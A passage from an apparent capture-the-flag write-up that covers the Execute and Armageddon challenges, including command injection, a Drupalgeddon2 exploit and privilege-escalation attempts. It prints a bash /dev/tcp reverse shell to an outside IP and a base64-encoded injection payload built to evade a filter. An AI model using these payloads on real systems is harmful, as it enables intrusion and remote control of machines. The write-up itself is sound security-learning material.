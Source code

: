 The flag is in `FLAg.txt` in the current directory (`/var/www/html/app1/`).

Then I found the flag of **Execute_1** in `/var/www/html/FLAG.txt`.

I also got a reverse shell using `bash` and `/dev/tcp` since netcat is not installed:
```bash
/bin/bash -i >& /dev/tcp/193.161.193.99/24193 0>&1
```

I encoded it in base 64 to avoid the filter deleting `;` and `&`. Here's my full payload:
```bash
| echo 'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5My4xNjEuMTkzLjk5LzI0MTkzIDA+JjE=' | base64 -d | /bin/bash
```

### Execute_3

I'm trying to escalate privileges but kernel exploitation is not the good way (up to date), `sudo` is not installed, I didn't find any SUID or GUID exploitable binary and I didn't find a writable cron job.

We can `su` to `HNUser` using the password from **SSH jump_1**.

### Armageddon 1

I started by running [feroxbuster](https://github.com/epi052/feroxbuster) to find any resources that I can access. I used the wordlist `Discovery/Web-Content/raft-medium-directories.txt` from [seclists](https://github.com/danielmiessler/SecLists).

I found `drupal` which seemed interesting. I didn't know what it is so I started by doing some research.

I found the **CVE-2018-7600** which is also called **Drupalgeddon**. It's really similar to the name of the challenge.

So I ran this exploit [Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2).

And I got a shell.

The flag is in the current directory: `/opt/lampp/htdocs/drupal/FLAG0.txt`

### Armageddon 2

Using the shell from **Armageddon 1**, I ran `find / -iname 'flag*'` and I found the flag in `/home/robert/FLAG1.txt`.

### Armageddon 3

Using the shell from **Armageddon 1**, I ran `find / -iname 'flag*'` and I found the flag in `/home/robert/.ssh/FLAG2.txt`.

### Armageddon 4

I supposed the last flag was in `/root` so I tried to escalate privileges. I didn't find any CVE in these versions of MariaDB and httpd. But I found a CVE for this version of Ubuntu (`Ubuntu 18.04.1`).
